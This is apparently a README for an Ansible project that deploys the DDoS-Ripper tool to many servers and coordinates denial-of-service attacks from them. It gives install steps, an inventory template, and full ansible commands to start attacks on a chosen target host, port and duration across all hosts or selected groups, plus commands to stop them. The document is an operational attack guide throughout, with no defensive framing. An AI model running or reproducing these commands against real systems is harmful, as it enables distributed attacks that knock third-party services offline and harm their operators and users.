 **Usage:**

# 1. Install python3 and Ansible
```
sudo apt install python3 python3-pip
sudo -H pip3 install --upgrade pip
pip3 install ansible==2.9.7
```

Create ansible config file:
```
mkdir -p /etc/ansible
vim /etc/ansible/ansible.cfg

$ cat /etc/ansible/ansible.cfg
[defaults]
host_key_checking = False
callback_whitelist = profile_tasks
timeout = 300
command_warnings = False
[inventory]
[privilege_escalation]
[paramiko_connection]
[ssh_connection]
ssh_args = -C -o ControlMaster=auto -o ControlPersist=600s -o UserKnownHostsFile=/dev/null
control_path = /tmp/ansible-ssh-%%h-%%p-%%r
pipelining = True
[persistent_connection]
connect_timeout = 300
[accelerate]
[selinux]
[colors]
[diff]
```

Clone git repo:
```
mkdir -p /opt/git
cd /opt/git
git clone https://github.com/deadmopozz/ddos-ripper-ansible.git
```

# 2. Prepare inventory /opt/git/ddos-ripper-ansible/inventory/hosts:

- add your hosts as follow:
```
[all]
#Add hosts to this group
host1      ansible_host=127.0.0.1
host2      ansible_host=127.0.0.2


[all:vars]
git_repo=https://github.com/palahsu/DDoS-Ripper.git
git_dest=/tmp/ddos-ripper


[group1]
host1

[group2]
host2
```

# 3. Run installation playbook and start/stop attack:

## You must have the same username and password or ssh key for each server

## If you use username and password for ssh authentication:
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible-playbook -i ../../inventory/hosts initial-setup.yml -b -kK -e ansible_user=user_name
```
### Start attack on all hosts
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible all -i ../../inventory/hosts -b -kK -e ansible_user=user_name -m shell -a "/tmp/ddos-ripper/ddos-ripper-start.sh <host> <port> <duration>"
```
### Start attack on one or several groups of hosts
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible all -i ../../inventory/hosts -b -kK -e ansible_user=user_name -m shell -a "/tmp/ddos-ripper/ddos-ripper-start.sh <host> <port> <duration>" -l group1,group2
```
### Stop attack on all hosts
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible all -i ../../inventory/hosts -b -kK -e ansible_user=user_name -m shell -a "/tmp/ddos-ripper/ddos-ripper-stop.sh"
```

## If you use ssh key for ssh authentication:
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible-playbook -i ../../inventory/hosts initial-setup.yml -b -kK -e ansible_user=user_name ansible_ssh_private_key_file="/path/to/your/ssh.key"
```
### Start attack on all hosts
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible all -i ../../inventory/hosts -b -kK -e ansible_user=user_name ansible_ssh_private_key_file="/path/to/your/ssh.key" -m shell -a "/tmp/ddos-ripper/ddos-ripper-start.sh <host> <port> <duration>"
```
### Start attack on one or several groups of hosts
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible all -i ../../inventory/hosts -b -kK -e ansible_user=user_name ansible_ssh_private_key_file="/path/to/your/ssh.key" -m shell -a "/tmp/ddos-ripper/ddos-ripper-start.sh <host> <port> <duration>" -l group1,group2
```
### Stop attack on all hosts
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible all -i ../../inventory/hosts -b -kK -e ansible_user=user_name ansible_ssh_private_key_file="/path/to/your/ssh.key" -m shell -a "/tmp/ddos-ripper/ddos-ripper-stop.sh"
```

